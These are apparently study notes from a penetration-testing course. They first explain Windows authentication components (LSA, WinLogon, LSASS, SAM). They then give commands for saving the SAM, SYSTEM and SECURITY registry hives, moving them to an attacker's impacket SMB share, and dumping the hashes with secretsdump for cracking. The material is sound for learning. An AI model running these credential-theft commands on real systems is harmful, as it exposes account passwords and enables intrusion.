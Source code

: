 - **Windows Authentication (Booo)**
  - Windows Authentication is often more complex than Linux
    - Consists of
      - Logon
      - Retrieval
      - Verification
      - Other complex Windows procedures, such as Kerberos
    - Local Security Authority (LSA)
      - Protected subsystem that authenticates users, and logs them on the local computer
      - Maintains info on all security aspects of the computer
      - Provides various translation services between names and SIDs (security IDs)
    - Windows Authentication Process
      - ![Auth_process1.webp](Aspose.Words.2046f680-6903-4adc-86e6-a585e95a060e.001.jpeg) 
    - Local interactive logon is an interaction between
      - WinLogon
        - Trusted process (haha) responsible for managing security-related user interactions
          - Launching LogonUI
          - Changing passwords
          - Locking and unlocking the workstation
        - Immediately launches LogonUI, and upon receival of creds, calls LSASS to authenticate user
      - LogonUI
        - logon user interface process
      - Credential Providers
      - LSASS (Local Security Authority Subsystem Service) = Vault for Windows-based authentication systems
        - Responsible for
          - Local system security policy
          - User authentication
          - Sending security audit logs to the Event Log
          - **Interesting in learning more abut LSASS AND reading Windows documentation? Check it out [here](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc961760\(v=technet.10\)?redirectedfrom=MSDN)!!!!!!!!!!!!**
      - One or more authentication packages
        - Such as Dynamic-Link Libraries (DLL), that perform auth checks
        - Msv1\_0.dll used for non-domain joined and interactive logins
      - SAM or Active Directory


## Windows Local Password Attack
### SAM
- It is beneficial to download hashes locally, then crack them (instead of cracking them on the target). We can do this by copying the SAM registry hives
- Registry Hives:
  - `hklm\sam`: Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.
  - `hklm\system`: Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
  - `hklm\security`: Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.
    - \security is not needed, but can be helpful
- **Using reg.exe save to copy registry hives**
  - `reg.exe save <registry_hive> C:\<registry_hive>`
- Create a share:
  - `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/<user>/Documents/`
  - `move sam.save \\<ip>\CompData`
  - `move security.save \\<ip>\CompData`
  - `move system.save \\<ip>\CompData`
  - `ls`
  - Dump hashes offline: `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`
  - `sudo nano hashestocrack.txt`
    - Crack the hashes